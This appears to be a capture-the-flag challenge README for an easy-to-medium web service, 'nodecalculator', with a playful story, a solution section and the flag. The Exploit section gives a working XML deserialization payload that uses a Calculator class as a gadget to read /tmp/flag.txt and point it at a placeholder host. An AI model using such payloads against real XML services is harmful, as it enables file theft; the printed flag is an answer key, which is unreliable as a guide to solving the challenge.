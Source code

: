 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Easy to Medium

## Technical

This XML service deserializes user input. It has an object field in its class that allows users to enter all objects in scope, and it can be used to get the flag using the Calculator class as a gadget.

## Story

It's a busy day in class. The teacher bot explains that the students need to use the nodecalculator service to calculate their binary distance to the closest leader bot, but the service is still being made. The young bots complain to you, "This doesn't make any sense to me, although to be honest, I didn't make any notes. You're a human, can't you figure out how this service works?"

Can you figure out how to use this service?

Sample request:
(POST request, Content-Type is application/xml)
<Node><location>testing</location></Node>

<img src="./calculator.jpg" width="500">

## Exploit

```
POST /NodeCalculator/nodeCalc HTTP/1.1
Host: localhost:8080
Content-Type: application/xml
Content-Length: 377

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Node>
<constructor xsi:type="calculator" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<locationA>noxxe</locationA><locationB>/tmp/flag.txt</locationB>
	<serverValidationCheck>http://host/</serverValidationCheck>
</constructor>
<location>testing</location>
</Node>
```

## Flag

brck{Y0u_Pay3d_Att3nt10n_In_Cl4ss}
